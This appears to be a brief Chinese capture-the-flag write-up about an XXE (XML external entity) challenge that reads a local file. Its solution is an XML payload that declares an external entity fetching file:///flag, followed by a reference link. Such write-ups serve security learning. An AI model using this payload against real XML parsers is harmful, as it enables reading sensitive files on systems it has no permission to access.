

考核：XXE有回显读取本地敏感文件

解题：

```php
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///flag" >]>
<root>
<name>&xxe;</name>
</root>
```



https://xz.aliyun.com/t/3357